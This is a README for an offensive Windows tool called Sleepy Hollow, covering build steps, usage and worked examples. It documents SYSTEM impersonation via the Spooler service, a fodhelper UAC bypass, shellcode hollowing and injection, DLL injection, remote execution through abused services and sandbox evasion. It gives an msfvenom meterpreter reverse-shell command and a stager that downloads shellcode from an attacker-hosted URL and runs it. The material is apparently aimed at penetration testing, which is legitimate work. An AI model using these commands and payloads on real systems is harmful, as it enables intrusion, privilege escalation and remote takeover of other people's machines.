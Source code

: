 # Sleepy Hollow

## Build

Requirements: _.NET 8 SDK_

Build native AOT executable with `dotnet publish -c Release --self-contained`

If you want a smaller executable, compress the executable with [upx](https://upx.github.io/):  `upx.exe -9 -o stager.exe .\SleepyHollow.exe`

## Usage

Use `SleepyHollow.exe` to see the usage information.

```text
Usage: SleepyHollow.exe <command> [options]
Commands:
  user  - displays privileges of current user

  spool - impersonates SYSTEM by abusing SpoolService
    --pipe: name of pipe (optional - will autogenerate name)
    --payload: path/URL to payload (ignored if --cmd is used)
    --cmd: command to execute after impersonation (optional)

  uac   - bypasses UAC by abusing fodhelper.exe
    --cmd: command to execute as Administrator

  sc    - executes shellcode 
    --payload: path/URL to shellcode
    --method: hollow/inject
    --wait: seconds to wait before exiting

  dll  - injects DLL into process
    --path: path/URL to DLL
    --processName: process to inject into

  rexec - executes command on remote host
    --hostname: hostname to connect to
    --cmd: command to execute
    --service: service to abuse
    --raw: execute command without prepending cmd.exe /c

Global options:
  --skip-evasion: skips sandbox evasion techniques
  --debug: enables debug output

```

## Examples

To generate the shellcode, we use `msfvenom`:

```bash
 msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.45.219 LPORT=4444 EXITFUNC=thread -f hex -o sc.txt
```

The only important thing is that the shellcode is in hex format using `-f hex`. The other parameters can be set as you wish.

Host this file on a web server.

### SpoolService

```bash
SleepyHollow.exe spool --payload http://<your_ip>/sc.txt
```

### Execute shellcode

This defaults to hollowing, but you can also inject the shellcode into a process by using `--method inject`.

```bash 
SleepyHollow.exe sc --payload http://<your_ip>/sc.txt
```

### UAC bypass

```bash
SleepyHollow.exe uac --cmd "C:\Windows\System32\cmd.exe /c whoami > C:\Users\Public\whoami.txt"
```

### Remote execution

This abuses the `SensorService` to execute commands on a remote host. You can use `--service` to specify a different service to abuse.

You can also use `--raw` to execute a command without prepending `cmd.exe /c

```bash
SleepyHollow.exe rexec --hostname <hostname> --cmd "whoami > C:\Users\Public\whoami.txt"
```

## Headless mode

You can run SleepyHollow in headless mode by using the `GenStager.ps1` script. This will build an executable that will execute shellcode without the need for a command line.

```powershell
./GenStager.ps1 -PayloadURL http://<your_ip>/sc.txt -OutFile stager.exe
```

When executed, this will download the shellcode from the url and execute. You can use this to execute shellcode on a remote host by using `rexec` if you have uploaded the file to the target host:

```bash
SleepyHollow.exe rexec --hostname <hostname> --service <service> --cmd "C:\Users\Public\stager.exe"
```

## References

* [Abusing Spooler to get SYSTEM](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)

## Credits

* [SpoolSample](https://github.com/leechristensen/SpoolSample)

